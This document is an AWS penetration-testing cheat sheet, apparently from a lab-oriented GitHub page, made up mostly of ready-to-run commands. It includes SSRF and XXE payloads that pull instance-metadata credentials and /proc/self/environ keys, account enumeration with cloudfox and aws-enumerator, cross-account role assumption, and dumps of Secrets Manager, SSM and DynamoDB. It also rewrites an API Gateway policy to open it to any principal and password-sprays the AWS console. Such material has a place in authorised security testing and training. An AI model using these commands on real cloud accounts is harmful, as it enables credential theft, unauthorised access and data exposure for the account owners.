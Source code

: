 # AWS Pentesting

## Authentication

- Run the following command and enter `ACCESS KEY ID` and `SECRET ACCESS KEY`

```shell
aws configure
aws configure --profile <profile_name>
aws sts get-caller-identity
```

```
export AWS_SESSION_TOKEN=
export AWS_SECRET_ACCESS_KEY=
export AWS_ACCESS_KEY_ID=
```

> The credentials we get from CloudShell expire after 15 minutes by default / design. After getting the credentials, you may need to get and set new credentials again as you work through the remainder of the lab.

```shell
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

- SSRF
```shell
http://169.254.169.254/
```

- XXE
```shell
file:///proc/self/environ
```
> Note that immediately following the AWS access key is the SHLVL=0 parameter. When you copy the AWS access key ID value, make sure that you don't copy the SHLVL label. Also the AWS session token is in base64 format and you should copy the trailing = or == .

- If new env, use cloudfox

```shell
https://github.com/BishopFox/cloudfox/releases
cloudfox aws all-checks -p default
```

- aws-enum

```
git clone https://github.com/shabarkin/aws-enumerator.git --depth 1

aws-enumerator cred -aws_access_key_id -aws_region  -aws_secret_access_key 
aws-enumerator enum -services all
aws-enumerator dump -services all
```

- IAM

```shell
aws sts assume-role --role-arn arn:aws:iam::427648302155:role/ExternalCostOpimizeAccess --role-session-name ExternalCostOpimizeAccess

aws sts assume-role --role-arn arn:aws:iam::427648302155:role/ExternalCostOpimizeAccess --role-session-name ExternalCostOpimizeAccess --external-id 37911

aws iam get-role --role-name <role_name>
aws iam list-user-policies --user-name sarah
aws iam list-attached-user-policies --user-name staging_eng
aws iam get-policy --policy-arn arn:aws:iam::115372617301:policy/staging_engineer_policy
aws iam get-policy-version --policy-arn arn:aws:iam::115372617301:policy/staging_engineer_policy --version-id v1
aws apigateway update-rest-api --rest-api-id ai90tno9bj --patch-operations '[{"op":"replace","path":"/policy","value":"{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Principal\":\"*\",\"Action\":\"execute-api:Invoke\",\"Resource\":\"arn:aws:execute-api:us-west-2:115372617301:ai90tno9bj/*/GET/prod\"},{\"Effect\":\"Allow\",\"Principal\":\"*\",\"Action\":\"execute-api:Invoke\",\"Resource\":\"arn:aws:execute-api:us-west-2:115372617301:ai90tno9bj/*/*/dev\"}]}"}]'
```

- Services

```shell
# s3
aws s3 ls s3://<bucket_name> --no-sign-request
aws s3api get-bucket-policy --bucket <bucket_name> | jq -r '.Policy | fromjson'

# api gateway
# ai90tno9bj.execute-api.us-west-2.amazonaws.com : This is the API Gateway hostname, and it contains three key parts:
# ai90tno9bj : The API Gateway ID that uniquely identifies your API Gateway instance in AWS.
# execute-api : AWS’s domain used for API Gateway endpoints.
# us-west-2 : The AWS region where this API Gateway is deployed — in this case, Oregon.
# amazonaws.com : AWS’s root domain.
aws apigateway get-stages --rest-api-id ai90tno9bj
aws apigateway get-rest-apis | cat policy.json | sed 's/\\\\\\//g' | jq
aws apigateway create-deployment --rest-api-id ai90tno9bj --stage-name api

# ec2
aws secretsmanager list-secrets #Get metadata of all secrets
aws secretsmanager describe-secret --secret-id <secret_arn>
aws --profile default --region us-west-2 secretsmanager get-secret-value --secret-id root_account_bd13f7880c73
aws --profile $profile --region us-west-2 ssm get-parameter --with-decryption --name /application/wprod3/admin

# Dynamo db
aws dynamodb list-tables
aws dynamodb scan --table-name analytics_app_users > output.json
```

- Password spray

```
go install github.com/WhiteOakSecurity/GoAWSConsoleSpray@latest
./GoAWSConsoleSpray -a 243687662613 -u ../../users -p ../../passwords


```